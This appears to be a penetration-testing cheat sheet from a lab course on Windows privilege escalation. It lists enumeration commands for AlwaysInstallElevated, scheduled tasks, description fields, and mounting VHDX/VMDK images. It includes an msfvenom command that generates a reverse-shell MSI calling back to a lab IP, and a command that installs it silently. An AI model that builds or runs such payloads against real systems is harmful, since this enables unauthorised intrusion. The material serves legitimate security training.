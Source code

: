 **Always Install Elevated**

- Enumerating Always Install Elevated Settings :
```powershell
 reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
 reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

- Generating MSI Package

```shell
 msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi
```

- Executing MSI Package:
```cmd
msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart
```

**Scheduled Tasks**

- Enumerating Scheduled Tasks :
```cmd
 schtasks /query /fo LIST /v
 schtasks /query /v /fo LIST > tasklist.txt
```

- Speed Up the task : 
```sh
Get-ScheduledTask -TaskName "Daily_Checkup" | Start-ScheduledTask
```

- Enumerating Scheduled Tasks with powershell :
```powershell
Get-ScheduledTask | select TaskName,State
```

**User/Computer Description Field**

- Checking Local User Description Field:
```powershell
Get-LocalUser
```

- Enumerating Computer Description Field 
```powershell
Get-WmiObject -Class Win32_OperatingSystem | select Description
```

**Mount VHDX/VMDK**

- Mount VMDK on Linux
```shell
guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmdk
```

- Mount VHD/VHDX on Linux

```shell
guestmount --add WEBSRV10.vhdx  --ro /mnt/vhdx/ -m /dev/sda1
```
